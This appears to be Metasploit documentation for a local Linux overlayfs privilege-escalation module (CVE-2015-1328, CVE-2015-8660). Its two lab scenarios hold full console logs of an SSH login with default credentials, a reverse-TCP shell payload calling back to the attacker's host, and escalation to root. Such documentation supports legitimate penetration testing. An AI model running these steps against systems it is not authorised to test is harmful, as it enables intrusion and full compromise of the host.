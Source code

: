 ## Creating A Testing Environment

This module has been tested against:

  1. CVE-2015-1328
    1. Ubuntu 14.04
      1. 3.13.0-24 (binary version of exploit compiled on)
      2. 3.19.0-20
      3. 3.19.0-21 (not vuln, exploit failed)
      4. 3.13.0-55 (not vuln, exploit failed)
  2. CVE-2015-8660
    1. Ubuntu 14.04
      1. 3.19.0-41 (binary version of exploit compiled on)

Untested against

  1. Fedora (code included to identify vuln versions)
  2. Redhat (description includes vuln kernel versions)

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/overlayfs_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **COMPILE**

  If we should attempt to compile on the system.  Defaults to Auto, which checks if `gcc` is installed

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

## Scenarios

### CVE-2015-8660 against Ubuntu 14.04 with kernel 3.19.0-41

#### Initial Access

    resource (/root/Text-1.txt)> use auxiliary/scanner/ssh/ssh_login
    resource (/root/Text-1.txt)> set rhosts 192.168.2.156
    rhosts => 192.168.2.156
    resource (/root/Text-1.txt)> set username ubuntu
    username => ubuntu
    resource (/root/Text-1.txt)> set password ubuntu
    password => ubuntu
    resource (/root/Text-1.txt)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 3.19.0-41-generic #46~14.04.2-Ubuntu SMP Tue Dec 8 17:46:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:39027 -> 192.168.2.156:22) at 2016-10-04 22:48:44 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    resource (/root/Text-1.txt)> use exploit/linux/local/overlayfs_priv_esc
    resource (/root/Text-1.txt)> set verbose true
    verbose => true
    resource (/root/Text-1.txt)> set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    resource (/root/Text-1.txt)> set session 1
    session => 1
    resource (/root/Text-1.txt)> set target 1
    target => 1
    resource (/root/Text-1.txt)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (/root/Text-1.txt)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if mount points exist
    [+] /tmp/haxhax not created
    [+] Kernel 3.19.0.pre.41.pre.generic is vulnerable to CVE-2015-8660
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Checking if mount points exist
    [+] /tmp/haxhax not created
    [+] Kernel 3.19.0.pre.41.pre.generic is vulnerable to CVE-2015-8660
    [*] Writing to /tmp/svF1U2Ya.c (2356 bytes)
    [*] Max line length is 65537
    [*] Writing 2356 bytes in 1 chunks of 8098 bytes (octal-encoded), using printf
    [*] Compiling /tmp/svF1U2Ya.c
    [*] Writing to /tmp/fHCJO1ex (155 bytes)
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Exploiting...
    [*] Sending stage (36 bytes) to 192.168.2.156
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.156:44823) at 2016-10-04 22:48:57 -0400
    [+] Deleted /tmp/svF1U2Ya.c
    [+] Deleted /tmp/fHCJO1ex
    
    3986817421
    viRVXKxRruOuDKwEBYAscFvJPPrtQbTO
    true
    zxrnfClHzgOcewXyEqQeEAcHsQmsEPtk
    cqdStYFUGluqJkpgfGAkPvcVgoKTtJlY
    EOzlAFTpQsoXMWIicFiKHxsVjjlFpspC
    true
    FgIyOJMyeREcjxpsbWkNDZNtuUGYmBtt
    omnusQCOqEdrUTbMLtDmXibhFAVQuTAz
    VPsVgFTxVwskShumsJkambKWMQhifDJi
    whoami
    root
    uname -a
    Linux Ubuntu14 3.19.0-41-generic #46~14.04.2-Ubuntu SMP Tue Dec 8 17:46:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

### CVE-2015-1328 against Ubuntu 14.04 with kernel 3.13.0-24

#### Initial Access

    resource (/root/Text-1.txt)> use auxiliary/scanner/ssh/ssh_login
    resource (/root/Text-1.txt)> set rhosts 192.168.2.156
    rhosts => 192.168.2.156
    resource (/root/Text-1.txt)> set username ubuntu
    username => ubuntu
    resource (/root/Text-1.txt)> set password ubuntu
    password => ubuntu
    resource (/root/Text-1.txt)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:42139 -> 192.168.2.156:22) at 2016-10-04 22:54:50 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    resource (/root/Text-1.txt)> use exploit/linux/local/overlayfs_priv_esc
    resource (/root/Text-1.txt)> set verbose true
    verbose => true
    resource (/root/Text-1.txt)> set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    resource (/root/Text-1.txt)> set session 1
    session => 1
    resource (/root/Text-1.txt)> set target 0
    target => 0
    resource (/root/Text-1.txt)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (/root/Text-1.txt)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if mount points exist
    [+] /tmp/ns_sploit not created
    [+] Kernel 3.13.0.pre.24.pre.generic is vulnerable to CVE-2015-1328
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Checking if mount points exist
    [+] /tmp/ns_sploit not created
    [+] Kernel 3.13.0.pre.24.pre.generic is vulnerable to CVE-2015-1328
    [*] Writing to /tmp/k4JlQwrx.c (4375 bytes)
    [*] Max line length is 65537
    [*] Writing 4375 bytes in 1 chunks of 15306 bytes (octal-encoded), using printf
    [*] Compiling /tmp/k4JlQwrx.c
    [*] Writing to /tmp/cjKriIIN (155 bytes)
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Exploiting...
    [*] Sending stage (36 bytes) to 192.168.2.156
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.156:57869) at 2016-10-04 22:55:04 -0400
    [+] Deleted /tmp/k4JlQwrx.c
    [+] Deleted /tmp/cjKriIIN
    
    3437009797
    lGTsPkjgaOAhZPAssSiPBdigTNuavPNA
    true
    zQgQeZUDzBZvCUelOYXjpIviozSnTjoE
    ZaGCLiKvvhyTawBwPHNqidQSerdmxDYE
    WjOaBQVXdxHBiVdomUBMRRrnLOPUGfGD
    true
    DgSZZHBIFrsBMvyRTBNSBTcRmVMZXMyx
    bwHnnuHwZAvSsZoYLhNrcuRDIKuqPRWu
    NfNIsINldyrgOLLagCPIQiQsZqTsmUec
    sh: 0: can't access tty; job control turned off
    # whoami
    root
    # uname -a
    Linux Ubuntu14 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
